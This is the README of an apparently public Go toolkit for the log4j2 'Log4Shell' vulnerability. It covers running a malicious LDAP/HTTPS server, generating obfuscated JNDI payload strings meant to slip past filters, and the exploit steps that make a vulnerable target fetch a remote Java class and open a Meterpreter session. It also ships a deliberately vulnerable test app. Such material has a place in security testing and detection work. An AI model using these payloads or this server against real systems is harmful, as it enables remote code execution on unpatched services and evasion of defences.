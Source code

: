 # Log4Shell
 [![Go Report Card](https://goreportcard.com/badge/github.com/For-ACGN/Log4Shell)](https://goreportcard.com/report/github.com/For-ACGN/Log4Shell)
 [![GoDoc](https://godoc.org/github.com/For-ACGN/Log4Shell?status.svg)](http://godoc.org/github.com/For-ACGN/Log4Shell)
 [![License](https://img.shields.io/github/license/For-ACGN/Log4Shell.svg)](https://github.com/For-ACGN/Log4Shell/blob/master/LICENSE)
 * Check, exploit, obfuscate, TLS, ACME about log4j2 vulnerability in one Go program. 
 * Support common operating systems, not need install any dependency.
 * Don't need to install anything except you want to develop this project.

## Feature
 * Only one program and easy deployment
 * Support multi Java class files
 * Support LDAPS and HTTPS server
 * Support ACME to sign certificate
 * Support obfuscate malicious(payload)
 * Hide malicious(payload) string
 * Add secret to protect HTTP server
 * Add token to fix repeat execute payload

## Usage
 ### Start Log4Shell server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start Log4Shell server with TLS
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)

 ### Start Log4Shell server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)

 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/Calc}"
   ```
   ```
   raw: ${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}

   ${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-
   da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo
   @-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.m
   Q:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s
   :-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}

   Each string can only be used once, or wait 20 seconds.
   ```
   ```
   When obfuscate malicious(payload) string, log4j2 package will repeat execute it, the number
   of repetitions is equal the number of occurrences about string "${". The LDAP server add a
   simple token mechanism for prevent it. 
   ```
   
  ### Hide malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://127.0.0.1:3890/Calc}" -add-dollar
   ```
   ```
   raw: ${jndi:ldap://127.0.0.1:3890/Calc$YG=.z[.od7rH0XpE}
   ```
   ```
   Execute VulApp:
   
   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>D:\Java\jdk1.8.0_121\bin\java -jar 
   vulapp.jar ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:
   -l}d${SaS-TmMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6B
   m:-}${W1eelS:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:
   5h=5SqK-p(X9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=
   ${*E-5M:-.z[}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC
   :.XYPyzv6-sPH.]*Ls:$@Q:-XpE}}
   ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:-l}d${SaS-T
   mMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6Bm:-}${W1eel
   S:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:5h=5SqK-p(X
   9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=${*E-5M:-.z
   [}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC:.XYPyzv6-s
   PH.]*Ls:$@Q:-XpE}}
   15:49:14.676 [main] ERROR log4j - XpE}

   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>
   ```
   ```
   The Logger will only record a part of raw string "15:49:14.676 [main] ERROR log4j - XpE}",
   and repeat execute will not appear(I don't know why this happened).
   ```

## Check
 * start Log4Shell server
 * send ```${jndi:ldap://1.1.1.1:3890/Nop}```
 * send ```${jndi:ldaps://example.com:3890/Nop}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Meterpreter}```
 * send ```${jndi:ldaps://example.com:3890/Meterpreter}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/Calc}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -add-dollar
        add one dollar to the obfuscated string
  -auto-cert
        use ACME client to sign certificate automatically
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -no-token
        not add random token when use obfuscate
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)

